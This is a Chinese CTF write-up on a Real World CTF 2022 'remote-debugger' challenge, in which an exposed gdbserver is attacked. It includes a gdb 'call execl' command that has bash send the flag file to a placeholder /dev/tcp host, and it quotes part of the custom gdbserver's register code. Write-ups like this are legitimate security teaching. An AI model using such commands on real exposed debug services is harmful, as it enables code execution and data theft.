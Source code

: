 ```yaml
---
title: rwctf2022体验赛 debugger & docker
date: 2022-01-23 19:03:47
permalink: /pages/c796d2/
categories:
  - ctf_wp
  - rwctf
tags:
  - 
---
```

# rw2022 体验赛wp - debugger & docker

[[toc]]



其实在sctf2021出题过程中， 喊队友出了个debuger控制台的题目，和之前docker暴露控制台端口被人搞了，想出个docker控制台的题目，但是一个队友咕了，一个没时间搭环境了。

却正好在今年的第一场比赛中看到了这么两个题目题目，确实有趣， 其实有点像misc。

## remote-debuger

其实比较简单，给的题目就是个gdbserver， 然后gdb内使用 

```
target remote ip:port
```

进行连接， 

本地可以简单搭起来环境，最开始直接想使用 gdb内置的call指令，直接调用函数，然后想反弹shell出来

```
call (int)execl("/bin/sh", "bash", "-c", "bash -c 'cat flag > /dev/tcp/ip/port'", 0)
```

但是运行报错，提示不允许修改 `st0`寄存器，看了下这个是浮点运算系列的寄存器，而且题目本身是64位不应该有问题，

然后翻阅他的gdbserver代码，这个不是标准实现的gdbserver， 所以在这个位置限制死了，不允许修改那个寄存器。

```c
# arch.h
#ifdef __x86_64__

#include <sys/reg.h>

#define SZ 8
#define FEATURE_STR "l<target version=\"1.0\"><architecture>i386:x86-64</architecture></target>"
static uint8_t break_instr[] = {0xcc};

#define PC RIP
#define EXTRA_NUM 57
#define EXTRA_REG ORIG_RAX
#define EXTRA_SIZE 8

typedef struct user_regs_struct regs_struct;

// gdb/features/i386/64bit-core.c
struct reg_struct regs_map[] = {
    {RAX, 8},
    {RBX, 8},
    {RCX, 8},
    {RDX, 8},
    {RSI, 8},
    {RDI, 8},
    {RBP, 8},
```